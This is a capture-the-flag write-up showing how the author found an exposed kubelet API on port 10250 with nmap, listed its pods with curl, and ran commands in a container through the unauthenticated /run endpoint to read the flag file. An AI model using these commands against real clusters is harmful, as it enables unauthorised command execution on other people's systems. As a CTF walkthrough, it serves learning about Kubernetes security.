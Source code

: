 # Baby Baby challenge
There's nothing but a sentence and an image
```
This is a pentest challenge, open your mind!
<img style="width: 300px;" src="jd.png" alt="the picture is unrelated to this challenge, just a advertisement" />

```

I tried `robots.txt`,`/.git/` but found nothing, then I use `nmap` to scan for open port in this challenge
and I found something interesting in it.

```
$ nmap -p- 47.75.146.42

Starting Nmap 7.01 ( https://nmap.org ) at 2018-04-13 15:08 +07
Nmap scan report for 47.75.146.42
Host is up (0.047s latency).
Not shown: 65528 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   closed https
2333/tcp  closed unknown
3389/tcp  closed ms-wbt-server
9999/tcp  open   abyss
10250/tcp open   unknown

Nmap done: 1 IP address (1 host up) scanned in 164.28 seconds
```

After searching for a while, I find out that that is `kubelet` service running on port `10250`
```
$ curl -k https://47.75.146.42:10250/stats/
{
  "name": "/",
  "subcontainers": [
   {
    "name": "/docker"
   },
   {
    "name": "/kubepods"
   },
   {
    "name": "/system.slice"
   },
   {
    "name": "/user.slice"
   }
```

I immediately search for `Exploit Kubelet` and boom: https://github.com/kayrus/kubelet-exploit
where we can use `/run/%namespace%/%pod_name%/%container_name%` to exploit it but first we must have
`namespace`,`pod_name`,`container_name`. I achieve this by
```
$curl -sk https://47.75.146.42:10250/runningpods/ | python -mjson.tool
{
            "metadata": {
                "creationTimestamp": null,
                "name": "web-test-4092782360-035qx",
                "namespace": "esn-system",
                "uid": "a8f7e307-3e14-11e8-838a-00163e0245e7"
            },
            "spec": {
                "containers": [
                    {
                        "image": "127.0.0.1:5000/esn-containers/web_test@sha256:ae129fcd94bd2978db37050f95c62311f5bf9fdbba25817e6e8a098db3a168cf",
                        "name": "web-test",
                        "resources": {}
                    }
                ]
            },
            "status": {}
        }
```
There was a lot of output but the challenge say `this is a pentest challenge` so I ignore everything else
Then follow the link above
```
$ curl -k -XPOST "https://47.75.146.42:10250/run/esn-system/web-test-4092782360-035qx/web-test" -d "cmd=ls /"
bin
core
dev
etc
flag.txt
home
lib
linuxrc
media
mnt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var

$ curl -k -XPOST "https://47.75.146.42:10250/run/esn-system/web-test-4092782360-035qx/web-test" -d "cmd=cat /flag.txt"
HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}


DO NOT MODIFY ANYTHING.
WE WILL BAN YOUR TEAM IF YOU CHANG FLAG, DELETE FILES, ETC.

如果你修改、删除文件，我们会 ban 掉你 :D
```

#Flag HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}